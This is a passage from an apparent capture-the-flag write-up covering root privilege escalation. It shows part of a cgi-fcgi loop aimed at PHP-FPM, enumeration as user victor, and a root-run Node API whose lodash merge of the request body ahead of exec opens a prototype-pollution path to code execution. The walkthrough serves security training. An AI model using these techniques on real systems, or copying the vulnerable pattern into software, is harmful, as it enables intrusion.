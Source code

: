 ```bash
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```

# Privesc Root

Once we have a shell as **victor** we start to enumerate the box again.

## Enumeration
Seems like we can access the pollution_api source code  

```bash
cd ~
ls /
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  pollution_api  user.txt
cd pollution_api
ls
controllers  functions  index.js  log.sh  logs  models  node_modules  package-lock.json  package.json  routes
```

Check for any processes that are related to our api

```bash
ps aux | grep api
root        1347  0.0  1.9 1664540 76956 ?       Sl   Dec12   0:01 /usr/bin/node /root/pollution_api/index.js
```

**/home/victor/pollution_api/controllers/Messages_send.js**  
While parsing through the source code we can spot a possible **[prototype pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce#exec-exploitation)** vulnerability  
But checking the code will tell us that we need admin permissions on the api.

```node
const Message = require('../models/Message');
const { decodejwt } = require('../functions/jwt');
const _ = require('lodash');
const { exec } = require('child_process');

const messages_send = async(req,res)=>{
    const token = decodejwt(req.headers['x-access-token'])
    if(req.body.text){

        const message = {
            user_sent: token.user,
            title: "Message for admins",
        };

        _.merge(message, req.body);

        exec('/home/victor/pollution_api/log.sh log_message');

        Message.create({
            text: JSON.stringify(message),
            user_sent: token.user
        });

        return res.json({Status: "Ok"});

    }
```